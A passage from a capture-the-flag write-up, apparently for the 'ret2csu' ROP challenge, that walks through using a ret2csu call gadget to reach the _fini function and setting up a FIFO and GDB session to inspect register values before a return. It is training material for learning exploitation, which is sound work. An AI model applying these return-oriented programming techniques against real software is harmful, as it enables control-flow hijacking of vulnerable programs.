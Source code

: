 ## Recovering From a Call Instead of a Ret
- In order to make a successful call to a function using `call qword [r12 + rbx*8]`, we first need to establish what value we're going to set r12 to
- We have determined from the previous sections that we want to call the `_fini` function, which is located at `0x4006b4`, but we need a pointer to this address due to `call qword [r12 + rbx*8]` requiring a pointer
- We have also found two pointers to `0x4006b4`, and we chose to use `0x600e48`, so this is value that we want `r12 + rbx*8` to evaluate to
- If we set rbx to zero, then r12 simply needs to be set to `0x600e48`, and we found the gadget for this which was at `0x40069a`. But what if we didn't manage to find this gadget? This is quite possible because on default settings, using command `/R pop rbx` in radare2's ROP gadget search tool won't return any results (possibly due to the gadget's length):
> $ `r2 -A ./ret2csu`  
> [0x00400520]> `/R pop rbx`  
> [0x00400520]>  
- So if we assume we didn't find the `pop rbx` part of the gadget, then we need to know the value of rbx before this instruction is executed
- There are many ways we can determine the value of rbx. This time, I have chosen to create a [FIFO](https://www.man7.org/linux/man-pages/man7/fifo.7.html), then open two terminals (first for dynamic analysis of the ELF binary which accepts input from the FIFO, second to write to the FIFO).

### 1st terminal 
- Make a FIFO using `mkfifo <name_of_fifo>`:
> $ `mkfifo my_fifo`  
- Open ELF binary in GDB:
> $ `gdb ./ret2csu -q`  
- The `pwnme` function is imported from `libret2csu.so`, so if you immediately try to disassemble `pwnme` function the addresses won't have been evaluated yet:
> (gdb) `disass pwnme`  
```
Dump of assembler code for function pwnme@plt:
   0x0000000000400500 <+0>:	jmp    QWORD PTR [rip+0x200b12]        # 0x601018 <pwnme@got.plt>
   0x0000000000400506 <+6>:	push   0x0
   0x000000000040050b <+11>:	jmp    0x4004f0
End of assembler dump.
```
- Therefore, use `start` to set a temporary breakpoint on main() and start executing a program under GDB:
> (gdb) `start`  
```
Temporary breakpoint 1 at 0x40060b
[...]
Temporary breakpoint 1, 0x000000000040060b in main ()
```
- Now try disassembling `pwnme` function again:
> (gdb) `disass pwnme`  
```
Dump of assembler code for function pwnme:
[...]
   0x00007feee45299bf <+133>:	call   0x7feee45297f0 <read@plt>
   0x00007feee45299c4 <+138>:	lea    rdi,[rip+0x34a]        # 0x7feee4529d15
   0x00007feee45299cb <+145>:	call   0x7feee45297a0 <puts@plt>
   0x00007feee45299d0 <+150>:	nop
   0x00007feee45299d1 <+151>:	leave  
   0x00007feee45299d2 <+152>:	ret    
End of assembler dump.
```
- Set a breakpoint before the `ret` instruction using a **relative** memory address, because we're going to run the program again but using the previously created FIFO for input instead of regular STDIN:
> (gdb) b *pwnme+152
- Print useful info at each breakpoint using `define hook-stop`:
> (gdb) `define hook-stop`  
```
```